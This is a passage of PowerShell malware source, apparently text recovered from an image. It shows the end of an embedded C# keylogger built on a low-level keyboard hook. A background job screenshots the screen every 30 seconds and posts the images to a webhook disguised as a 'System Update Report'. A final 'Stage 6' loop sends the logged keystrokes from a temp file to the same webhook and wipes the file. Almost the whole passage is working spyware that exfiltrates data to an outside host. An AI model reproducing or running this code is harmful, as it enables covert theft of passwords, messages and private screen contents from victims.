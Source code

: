 ```
        public static void Main() {
            using (Process curProcess = Process.GetCurrentProcess())
            using (ProcessModule curModule = curProcess.MainModule) {
                _hookID = SetWindowsHookEx(WH_KEYBOARD_LL, HookCallback, GetModuleHandle(curModule.ModuleName), 0);
            }
            Application.Run();
            UnhookWindowsHookEx(_hookID);
        }
    }
"@
    [Keylogger]::Main()
}

Start-Job -Name "ScreenCapture" -ScriptBlock {
    while ($true) {
        try {
            Add-Type -AssemblyName System.Windows.Forms
            $screen = [System.Windows.Forms.Screen]::PrimaryScreen.Bounds
            $bitmap = New-Object System.Drawing.Bitmap($screen.Width, $screen.Height)
            $graphics = [System.Drawing.Graphics]::FromImage($bitmap)
            $graphics.CopyFromScreen($screen.Location, [System.Drawing.Point]::Empty, $screen.Size)
            $memoryStream = New-Object System.IO.MemoryStream
            $bitmap.Save($memoryStream, [System.Drawing.Imaging.ImageFormat]::Jpeg)
            $bytes = $memoryStream.ToArray()
            $base64 = [Convert]::ToBase64String($bytes)
            
            $payload = @{
                content = "System Update Report"
                embeds = @(@{
                    image = @{
                        url = "data:image/jpeg;base64,$base64"
                    }
                })
            }
            
            Invoke-RestMethod -Uri $using:webhookUrl -Method Post -Body ($payload | ConvertTo-Json) -ContentType "application/json"
        } catch {}
        Start-Sleep -Seconds 30
    }
}

# Stage 6: Cleanup and Maintenance
while ($true) {
    try {
        Get-Content "$env:temp\systemlog.txt" -ErrorAction SilentlyContinue | ForEach-Object {
            $payload = @{ content = "System Log: $_" }
            Invoke-RestMethod -Uri $webhookUrl -Method Post -Body ($payload | ConvertTo-Json) -ContentType "application/json"
        }
        Clear-Content "$env:temp\systemlog.txt" -ErrorAction SilentlyContinue
    } catch {}
    Start-Sleep -Minutes 15
}
```

---